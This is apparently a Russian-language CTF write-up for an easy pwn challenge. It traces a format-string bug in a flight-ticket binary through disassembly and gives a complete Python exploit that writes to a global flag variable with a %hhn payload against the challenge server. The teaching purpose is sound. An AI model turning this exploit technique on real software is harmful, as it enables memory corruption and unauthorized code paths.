

# Предстоящий полет 💥

## Описание задачи 📌

Название задачи:

```text
Предстоящий полет
```

Сложность:

```text
Easy
```

Описание со страницы задачи:

```text
Наш герой - это обычный парень, с обычного города N. Он работает на обычной работе и проживает обычную жизнь и, в целом, не жалуется. Но однажды - кто знает, откуда берутся подобные мысли? - его посетила идея, странная, абсурдная и даже несколько пугающая: "А что, если стать хакером?". Зачем? Почему? Разве подобные вопросы имеют значение? Возможно, это было бегство, вызов, мятеж, - быть может, даже нечто демоническое. Сказано - сделано, парень днями и ночами сидел за книгами и различными видео на всем известной площадке. Цель его была проста и дерзка: улететь в отпуск, не потратив ни копейки. Ни малейшего намека на законность, ни малейшего страха перед последствиями. Казалось, все его существо слилось в этой безумной идее. Прошел год, парень поднаторел и решил, что пора. Так он и оказался в аэропорту и начал думать, что же ему делать дальше...
```

В задаче даны:

```text
upcoming_flight
nc tasks.duckerz.ru 30011
```

Скрин страницы задачи:



## Что решаем 🎯

Это pwn-задача. Обычно это значит, что нам дали исполняемый файл и удаленный сервис, где запущена такая же программа.

Наша цель:

```text
понять логику программы
найти ошибку обработки пользовательского ввода
заставить программу напечатать флаг
```

В этой задаче не нужно писать сложный ROP-chain и не нужно хорошо знать ассемблер. Достаточно научиться узнавать несколько простых шаблонов:

```text
call puts      -> программа печатает строку
call printf    -> программа форматированно печатает строку
call system    -> программа запускает системную команду
test ... / je  -> проверка условия и переход в другую ветку
```

## Первое подключение 🌐

Подключаемся к сервису:

```bash
nc tasks.duckerz.ru 30011
```

`nc` или netcat открывает TCP-соединение с указанным хостом и портом. В pwn-задачах так обычно общаются с удаленной версией бинаря.

Сервис показывает меню:

```text
Наш герой попал в аэропорт и думает.
Куда же следует пойти?
1. К таблу вылетов.
2. К автомату по печати билетов.
3. На посадку.
>
```

Пока это просто интерактивная программа с тремя действиями.

## Первичная проверка файла 📦

Проверяем тип файла:

```bash
file upcoming_flight
```

Результат:

```text
ELF 64-bit LSB executable, x86-64
dynamically linked
not stripped
```

Разбор:

- `ELF` - исполняемый файл Linux;
- `64-bit`, `x86-64` - архитектура amd64;
- `dynamically linked` - программа использует внешние библиотеки, например libc;
- `not stripped` - из бинаря не удалены имена функций и переменных.

Последний пункт очень важен. `not stripped` означает, что вместо безымянных адресов мы можем увидеть понятные имена вроде `print_ticket`, `arrive`, `has_ticket`.

## Что можно узнать через strings 🔤

Команда:

```bash
strings upcoming_flight
```

ищет читаемые строки внутри бинаря.

Важные находки:

```text
system
cat flag
flight_board
print_ticket
arrive
has_ticket
main
```

Что это дает:

- `system` - программа где-то запускает системную команду;
- `cat flag` - внутри программы есть команда чтения файла `flag`;
- `flight_board`, `print_ticket`, `arrive` - имена функций;
- `has_ticket` - переменная, по смыслу "есть билет";
- `main` - главная функция.

Уже на этом этапе можно сформулировать гипотезу:

```text
флаг печатается не всегда
скорее всего, перед cat flag есть проверка "есть ли билет"
переменная has_ticket может управлять этой проверкой
```

Проверить строку `cat flag` можно так:

```bash
strings -t x upcoming_flight | grep 'cat flag'
```

На macOS важно писать именно `-t x`, а не `-tx`.

Пример результата:

```text
22e9 cat flag
```

`22e9` - смещение строки внутри файла. В дизассемблере эта же строка может отображаться как адрес `0x4022e9`.

## Минимальный словарь ассемблера 📚

Дальше используем `objdump`:

```bash
objdump -d -M intel upcoming_flight
```

Что делает команда:

- `objdump` показывает содержимое бинаря;
- `-d` дизассемблирует код, то есть переводит машинные байты в инструкции;
- `-M intel` включает Intel-синтаксис, который обычно проще читать новичку.

Не нужно понимать каждую строку. Для этой задачи хватает нескольких шаблонов.

### Вызов функции со строкой

Частый шаблон:

```asm
lea rax, [rip + ...]
mov rdi, rax
call puts
```

Перевод на C-подобный язык:

```c
puts("какая-то строка");
```

Почему так:

- `lea rax, [...]` кладет адрес строки в регистр `rax`;
- `mov rdi, rax` переносит этот адрес в `rdi`;
- в Linux x86-64 первый аргумент функции передается через `rdi`;
- `call puts` вызывает `puts` с этим аргументом.

Такой же шаблон с `system`:

```asm
lea rax, [адрес_строки]
mov rdi, rax
call system
```

примерно означает:

```c
system("строка");
```

### Проверка условия

Другой важный шаблон:

```asm
test al, al
je somewhere
```

Перевод:

```c
if (al == 0) {
    goto somewhere;
}
```

`test al, al` проверяет, равен ли младший байт регистра `rax` нулю.

`je` означает `jump if equal`, то есть "прыгнуть, если результат проверки равен нулю".

## Как понять пункты меню 🧭

Смотрим только функцию `main`:

```bash
objdump -d -M intel upcoming_flight | sed -n '/<main>:/,/^$/p'
```

Внутри видно сравнение с числами:

```asm
cmp ..., 0x31
je  ...

cmp ..., 0x32
je  ...

cmp ..., 0x33
je  ...
```

`0x31`, `0x32`, `0x33` - это ASCII-коды символов:

```text
0x31 = '1'
0x32 = '2'
0x33 = '3'
```

Рядом видны вызовы:

```asm
call 4011b6 <flight_board>
call 401398 <print_ticket>
call 401340 <arrive>
```

Отсюда получается:

```text
1 -> flight_board()
2 -> print_ticket()
3 -> arrive()
```

Это не догадка по названию. Программа реально сравнивает ввод с `'1'`, `'2'`, `'3'` и вызывает соответствующие функции.

## Разбираем arrive 🛫

Теперь смотрим функцию посадки:

```bash
objdump -d -M intel upcoming_flight | sed -n '/<arrive>:/,/^$/p'
```

Важный фрагмент:

```asm
401344: movzx eax, byte ptr [rip + 0x2d3e] # 0x404089 <has_ticket>
40134b: test  al, al
40134d: je    0x401386 <arrive+0x46>

40134f: lea   rax, [rip + 0xf3a]
401356: mov   rdi, rax
401359: call  puts

40135e: lea   rax, [rip + 0xf5b]
401365: mov   rdi, rax
401368: call  puts

40136d: lea   rax, [rip + 0xf75] # 0x4022e9
401374: mov   rdi, rax
401377: call  system

40137c: mov   edi, 0x0
401381: call  exit

401386: lea   rax, [rip + 0xf6b]
40138d: mov   rdi, rax
401390: call  puts
```

Разбираем медленно.

Строка:

```asm
movzx eax, byte ptr [rip + 0x2d3e] # 0x404089 <has_ticket>
```

означает:

```c
eax = has_ticket;
```

Программа читает глобальную переменную `has_ticket` по адресу `0x404089`.

Дальше:

```asm
test al, al
je 0x401386
```

означает:

```c
if (has_ticket == 0) {
    перейти в ветку отказа;
}
```

Если `has_ticket == 0`, программа прыгает на `0x401386`, где просто вызывает `puts` и возвращается.

Если `has_ticket != 0`, прыжка нет, и программа идет дальше:

```asm
call puts
call puts
call system
call exit
```

Перед `system` в `rdi` кладется адрес `0x4022e9`. По `strings` мы знаем, что там лежит:

```text
cat flag
```

Значит логика `arrive` такая:

```c
void arrive() {
    if (has_ticket) {
        puts("Добро пожаловать на борт!");
        puts("Еще вот, вам передали:");
        system("cat flag");
        exit(0);
    } else {
        puts("нет билета");
    }
}
```

Точные тексты `puts` не важны. Важна структура:

```text
если has_ticket != 0 -> system("cat flag")
если has_ticket == 0 -> отказ
```

Теперь цель стала очень простой:

```text
сделать has_ticket = 1
```

## Где можно повлиять на программу 🎫

После анализа `arrive` мы не пытаемся сразу "получить флаг". Мы ищем место, где можем изменить `has_ticket`.

В меню есть функция:

```text
2 -> print_ticket()
```

По смыслу это автомат печати билетов. Значит там есть пользовательский ввод.

Смотрим функцию:

```bash
objdump -d -M intel upcoming_flight | sed -n '/<print_ticket>:/,/^$/p'
```

Внутри есть два важных места.

### Первое место: printf с нашим вводом

Фрагмент:

```asm
call fgets
...
lea  rax, [rbp - 0x50]
mov  rdi, rax
call printf
```

По смыслу это:

```c
char name[32];

fgets(name, 0x20, stdin);
printf(name);
```

Проблема в строке:

```c
printf(name);
```

`printf` воспринимает первый аргумент не как обычный текст, а как format string.

Если пользователь ввел:

```text
hello
```

программа напечатает:

```text
hello
```

Но если пользователь ввел:

```text
%p.%p.%p
```

`printf` начнет воспринимать `%p` как команды форматирования и будет печатать значения из памяти.

Правильно было бы писать:

```c
printf("%s", name);
```

Тогда `name` воспринимался бы только как строка, а не как набор команд для `printf`.

Эта ошибка называется:

```text
format string vulnerability
```

### Второе место: gets

Еще ниже есть:

```asm
call gets
```

`gets` опасна, потому что читает строку без ограничения длины. Через нее часто делают buffer overflow.

Но в этой функции есть stack canary:

```asm
mov rax, qword ptr fs:[0x28]
...
call __stack_chk_fail
```

Stack canary - защита от простого переполнения стека. Поэтому для этой easy-задачи проще использовать format string, а не ломать стек через `gets`.

## Проверяем format string на сервисе 🧪

Подключаемся:

```bash
nc tasks.duckerz.ru 30011
```

Выбираем пункт:

```text
2
```

На запрос ФИО вводим:

```text
%p.%p.%p.%p.%p.%p.%p
```

Получаем ответ:

```text
Очень приятно: 0x7ffd71232cd0.(nil).(nil).(nil).(nil).0x70252e70252e7025.0x252e70252e70252e
```

Что это значит:

- `%p` просит `printf` вывести значение как указатель;
- если бы программа делала `printf("%s", name)`, она напечатала бы `%p.%p...` как обычный текст;
- но программа напечатала адреса, значит наш ввод исполняется как format string.

Особенно интересны значения:

```text
0x70252e70252e7025
0x252e70252e70252e
```

Это куски нашей строки `%p.%p.%p...`, прочитанные как 64-битные числа.

Вывод:

```text
наш ввод лежит там, откуда printf берет аргументы
```

Это важно, потому что дальше мы положим в ввод адрес `has_ticket`, а `printf` сможет использовать его как аргумент.

## Адрес has_ticket 📍

Нужно узнать, куда писать.

Так как бинарь `not stripped`, используем `nm`:

```bash
nm upcoming_flight | grep has_ticket
```

Результат:

```text
0000000000404089 B has_ticket
```

Разбор:

- `0x404089` - адрес переменной;
- `B` - переменная лежит в секции `.bss`;
- `.bss` - область для глобальных переменных, которые изначально равны нулю.

Наша конкретная цель:

```c
*(char *)0x404089 = 1;
```

То есть записать один байт `1` по адресу `0x404089`.

## Почему нам нужен `%n` ✍️

У `printf` есть необычный спецификатор:

```text
%n
```

Он не печатает данные. Он записывает в память количество символов, которые `printf` уже успел напечатать.

Пример на C:

```c
int x = 0;
printf("AAAA%n", &x);
```

После этого:

```c
x == 4
```

Потому что до `%n` было напечатано 4 символа: `AAAA`.

Есть варианты:

| Формат | Что записывает |
|---|---|
| `%n` | `int`, обычно 4 байта |
| `%hn` | 2 байта |
| `%hhn` | 1 байт |

В `arrive` переменная читается как байт:

```asm
movzx eax, byte ptr [...] # has_ticket
```

Поэтому нам достаточно записать один байт:

```text
%hhn
```

## Почему именно `%1c%8$hhn` 🧠

Payload начинается так:

```text
%1c%8$hhn
```

Разбор:

```text
%1c
```

печатает один символ. После этого внутренний счетчик `printf` равен `1`.

```text
%8$hhn
```

означает:

```text
возьми 8-й аргумент printf как адрес
запиши туда 1 байт
значение для записи = сколько символов уже напечатано
```

Так как до этого был `%1c`, записывается число:

```text
1
```

Остается вопрос: почему 8-й аргумент?

Мы проверили вводом:

```text
%p.%p.%p.%p.%p.%p.%p
```

и увидели, что куски нашего ввода начинают появляться среди аргументов `printf` примерно с 6-й позиции.

Дальше payload строится так, чтобы адрес `0x404089` оказался ровно на позиции, к которой обращается `%8$hhn`.

```python
b"%1c%8$hhn"      # 9 байт
b"A" * 7          # еще 7 байт
address           # начинается после 16 байт
```

`9 + 7 = 16`.

На x86-64 один такой "кусок аргумента" занимает 8 байт. `16` байт - это ровно две группы по 8 байт, поэтому адрес оказывается выровнен удобно для чтения `printf`.

Итоговый payload:

```python
payload = b"%1c%8$hhn" + b"A" * 7 + struct.pack("<Q", 0x404089)
```

## Почему нельзя просто вставить payload руками в nc ⚠️

Очень частая ошибка:

```text
b'%1c%8$hhn' + b'A'*7 + p64(0x404089)
```

вставить прямо в `nc`.

Так делать нельзя.

Это не payload как текст. Это Python-выражение, которое создает байты.

Нужная часть:

```python
struct.pack("<Q", 0x404089)
```

создает настоящие байты адреса:

```text
89 40 40 00 00 00 00 00
```

В `nc` руками ты введешь символы:

```text
s t r u c t . p a c k ...
```

или:

```text
p64(0x404089)
```

но не бинарный адрес.

Еще проблема: в адресе есть нулевые байты `00`. Их неудобно и практически бессмысленно вводить руками в интерактивный `nc`.

Поэтому payload отправляется через Python.

## Скрипт эксплуатации 🐍

```python
import socket
import struct
import time

s = socket.create_connection(("tasks.duckerz.ru", 30011))

payload = b"%1c%8$hhn" + b"A" * 7 + struct.pack("<Q", 0x404089)

print(s.recv(4096).decode("utf-8", errors="replace"))

s.sendall(b"2\n")
time.sleep(0.2)
print(s.recv(4096).decode("utf-8", errors="replace"))

s.sendall(payload + b"\n")
time.sleep(0.2)
print(s.recv(4096).decode("utf-8", errors="replace"))

s.sendall(b"123\n")
time.sleep(0.2)
print(s.recv(4096).decode("utf-8", errors="replace"))

s.sendall(b"3\n")
time.sleep(0.5)
print(s.recv(8192).decode("utf-8", errors="replace"))

s.close()
```

Запустить можно так:

```bash
python3 payload.py
```

Или через heredoc:

```bash
python3 - <<'PY'
import socket
import struct
import time

s = socket.create_connection(("tasks.duckerz.ru", 30011))

payload = b"%1c%8$hhn" + b"A" * 7 + struct.pack("<Q", 0x404089)

print(s.recv(4096).decode("utf-8", errors="replace"))

s.sendall(b"2\n")
time.sleep(0.2)
print(s.recv(4096).decode("utf-8", errors="replace"))

s.sendall(payload + b"\n")
time.sleep(0.2)
print(s.recv(4096).decode("utf-8", errors="replace"))

s.sendall(b"123\n")
time.sleep(0.2)
print(s.recv(4096).decode("utf-8", errors="replace"))

s.sendall(b"3\n")
time.sleep(0.5)
print(s.recv(8192).decode("utf-8", errors="replace"))

s.close()
PY
```

Важно: закрывающий `PY` должен стоять строго в начале строки, без пробелов.

## Что делает скрипт по шагам ⚙️

```python
s = socket.create_connection(("tasks.duckerz.ru", 30011))
```

Открывает TCP-соединение с сервисом.

```python
payload = b"%1c%8$hhn" + b"A" * 7 + struct.pack("<Q", 0x404089)
```

Создает байтовую строку:

```text
format string + padding + адрес has_ticket
```

```python
s.sendall(b"2\n")
```

Выбирает пункт печати билета.

```python
s.sendall(payload + b"\n")
```

Отправляет payload именно в поле:

```text
Введите ваше ФИО:
```

Это важно. Format string bug находится в имени, не в номере посадочного талона.

```python
s.sendall(b"123\n")
```

Отправляет любой номер посадочного талона. Этот ввод не важен для атаки, он просто нужен, чтобы программа вернулась в меню.

```python
s.sendall(b"3\n")
```

Выбирает посадку. К этому моменту:

```text
has_ticket = 1
```

поэтому `arrive` выполняет:

```c
system("cat flag");
```

## Частые ошибки 🧯

### Ошибка 1: вставить Python payload в nc как текст

Неправильно:

```text
Введите ваше ФИО: b'%1c%8$hhn' + b'A'*7 + p64(0x404089)
```

Так программа получает обычный текст, а не байты адреса.

Правильно: отправлять payload Python-скриптом.

### Ошибка 2: отправить payload в номер талона

Неправильно:

```text
Введите ваше ФИО: %p.%p.%p
Теперь введите номер посадочного талонa: <payload>
```

Payload должен попасть в ФИО, потому что именно ФИО передается в `printf(name)`.

Правильно:

```text
Введите ваше ФИО: <payload>
Теперь введите номер посадочного талонa: 123
```

### Ошибка 3: heredoc завис на `heredoc>`

Если запускаешь:

```bash
python3 - <<'PY'
...
PY
```

закрывающий `PY` должен быть без отступа.

Неправильно:

```bash
  PY
```

Правильно:

```bash
PY
```

### Ошибка 4: думать, что `%p` уже эксплойт

`%p.%p.%p` - это тест.

Он только подтверждает:

```text
format string bug есть
```

Настоящий payload использует `%hhn`, потому что нам нужна запись в память.

## Итоговая цепочка ✅

```text
file показывает not stripped ELF
        |
strings показывает cat flag, has_ticket, arrive, print_ticket
        |
main связывает пункты меню с функциями
        |
3 -> arrive()
        |
arrive() вызывает system("cat flag"), если has_ticket != 0
        |
цель: записать 1 в has_ticket
        |
2 -> print_ticket()
        |
print_ticket() делает printf(name)
        |
это format string vulnerability
        |
nm показывает адрес has_ticket = 0x404089
        |
payload %1c%8$hhn + padding + address записывает 1 в has_ticket
        |
выбираем пункт 3
        |
получаем флаг
```

## Финальный статус 🏁

В решении использовали:

```text
файл: upcoming_flight
тип: ELF x86-64
сервис: tasks.duckerz.ru:30011
уязвимость: format string vulnerability
цель записи: has_ticket
адрес has_ticket: 0x404089
payload: %1c%8$hhn + padding + address
```

Флаг в writeup намеренно не вставлен, чтобы файл оставался учебным разбором, а не просто ответом.

Автор: masquadd :) ✍️
